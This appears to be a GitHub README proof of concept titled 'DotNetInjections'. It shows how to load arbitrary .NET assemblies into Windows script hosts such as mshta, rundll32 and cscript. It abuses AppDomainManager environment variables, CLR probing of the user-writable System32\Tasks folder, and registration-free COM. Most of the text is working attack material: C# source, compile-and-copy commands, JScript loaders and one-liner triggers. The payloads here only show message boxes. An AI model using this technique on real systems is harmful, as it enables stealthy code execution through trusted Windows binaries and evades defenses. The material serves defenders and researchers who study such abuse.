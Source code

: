 # DotNetInjections
Loading Assemblies Into Processes, the All Natural Organic way


## Executing Arbitrary Assemblies In The Context Of Windows Script Hosts

Issue.

By locating an arbitrary assembly in C:\Windows\System32\Tasks or C:\Windows\SysWOW64\Tasks we can load or influence any script hosts or ANY .NET Application in System32.

Other writable folders may include fxstmp

The best candidate for placement, will be a folder below the app you are running, so, system32 may not be writable, but a folder that mateches an
assembly name you have control over , that is writable will be a good candiate.

For example, cscript, wscript, regsvr32, mshta, eventvwr 

This is a design pattern fully supported and documented in the CLR.

As described in [How the Runtime Locates Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/deployment/how-the-runtime-locates-assemblies), we can see that probing of the application base can be influenced.

```
The runtime always begins probing in the application's base, which can be either a URL or the application's root directory on a computer. If the referenced assembly is not found in the application base and no culture information is provided, the runtime searches any subdirectories with the assembly name. The directories probed include:

[application base] / [assembly name].dll

[application base] / [assembly name] / [assembly name].dll
```

If we are trying to load a custom assembly into say, `mshta.exe`, we can take advantage of the fact that C:\Windows\System32\Tasks is a globally writable path. We simply place an assembly named `tasks.dll` into either 
`C:\Windows\System32\Tasks` or `C:\Windows\SysWow64\Tasks`.

There are several implications to this. Let me describe two and provide PoC scripts and binaries to demonstrate.

1. We can leverage the environment variables that setup custom Application Domains, 
    https://blogs.msdn.microsoft.com/shawnfa/2005/07/21/setting-up-an-appdomainmanager/

Example:
tasks.cs 
```
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;


public sealed class MyAppDomainManager : AppDomainManager
{
  
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
		System.Windows.Forms.MessageBox.Show("AppDomain - KaBoom!");
		// You have more control here than I am demonstrating. For example, you can set ApplicationBase, 
		// Or you can Override the Assembly Resolver, etc...
        return;
    }
}

/*
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:tasks.dll tasks.cs
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
set COMPLUS_Version=v4.0.30319
copy tasks.dll C:\Windows\System32\Tasks\tasks.dll
copy tasks.dll C:\Windows\SysWow64\Tasks\tasks.dll


*/

```

Trigger the Payload with a simple one-liner
```

mshta.exe javascript:a=new%20ActiveXObject("System.Object");close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";a=new%20ActiveXObject("System.Object");close();

```



tasks.js

```
// Controls the search path for unmanged dlls
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';new ActiveXObject('WScript.Shell').Environment('Process')('TMP') = 'c:\\Windows\\System32\\Tasks';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyAppDomainManager';


var o = new ActiveXObject("System.Object"); // Trigger AppDomainManager Load

```

In addition to leveraging the AppDomainMangers to load our assemblies, we can leverage Registration-Free COM to load and create objects.

Putting this together, we can see a complete .NET Assembly that demonstrates both capabilities.

tasks.cs or fxstmp etc...
```
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;

using System.IO;
using System.Reflection;
using System.Runtime.Hosting;


public sealed class MyAppDomainManager : AppDomainManager
{
  
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
		System.Windows.Forms.MessageBox.Show("AppDomain - KaBoom!");
		// You have more control here than I am demonstrating. For example, you can set ApplicationBase, 
		// Or you can Override the Assembly Resolver, etc...
        return;
    }
}

/*
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:tasks.dll tasks.cs
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
set COMPLUS_Version=v4.0.30319
copy tasks.dll C:\Windows\System32\Tasks\tasks.dll
copy tasks.dll C:\Windows\SysWow64\Tasks\tasks.dll

Simple One-Liner Triggers.
mshta.exe javascript:a=new%20ActiveXObject("System.Object");close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";a=new%20ActiveXObject("System.Object");close();



*/


namespace MyDLL
{
	 
	 [ComVisible(true)]
	 [Guid("31D2B969-7608-426E-9D8E-A09FC9A5ACDC")]
	 [ClassInterface(ClassInterfaceType.None)]
	 [ProgId("MyDLL.Operations")]
	 public class Operations
	 {
		 
		 public Operations()
		 {
			 Console.WriteLine("So It Begins");
		 }
		 
		 [ComVisible(true)]
		 public string getValue1(string sParameter)
		 {
			 switch (sParameter)
			 {
				 case "a":
				 return "A was chosen";

				 case "b":
				 return "B was chosen";

				 case "c":
				 return "C was chosen";

				 default:
				 return "Other";
			}
		}
		 
		 [ComVisible(true)]
		 public string getValue2()
		 {
			return "From VBS String Function";
		 }
		 
		  [ComVisible(true)]
		 public void getValue3()
		 {
					System.Windows.Forms.MessageBox.Show("Hey From My Assembly");

		 }
		 
	 }
}
```


tasks.js
```
// var manifest string should be UTF-16
// Controls the search path for unmanged dlls
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';new ActiveXObject('WScript.Shell').Environment('Process')('TMP') = 'c:\\Windows\\System32\\Tasks';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyAppDomainManager';


var o = new ActiveXObject("System.Object"); // Trigger AppDomainManager Load

// Ideally, we create a DLL, drop it anywhere and load it like DynamicWrapper...

// Loads Assembly, but expects it in the C:\Windows\System32 for example for managed code...
// Good news, CLR tries to resolve in sub dir with name of app.  
// Since C:\Windows\system32\tasks is user writable... :) CLR finds and loads our assembly.


var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1" xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"><assemblyIdentity name="tasks" type="win32" version="0.0.0.0" /><description>Built with love by Casey Smith @subTee </description><clrClass   name="MyDLL.Operations"   clsid="{31D2B969-7608-426E-9D8E-A09FC9A5ACDC}"   progid="MyDLL.Operations"   runtimeVersion="v4.0.30319"   threadingModel="Both" /><file name="tasks.dll"> </file></assembly>';

var ax = new ActiveXObject("Microsoft.Windows.ActCtx");

ax.ManifestText = manifest;

var dwx = ax.CreateObject("MyDLL.Operations");
//WScript.StdOut.WriteLine(dwx.getValue1("a"));
//WScript.StdOut.WriteLine(dwx.getValue2());
dwx.getValue3() //Trigger Message Box
```

Trigger with cscript.exe tasks.js
Observe Assemmbly execution from AppDomain initialization as well as calling into a method in our custom class
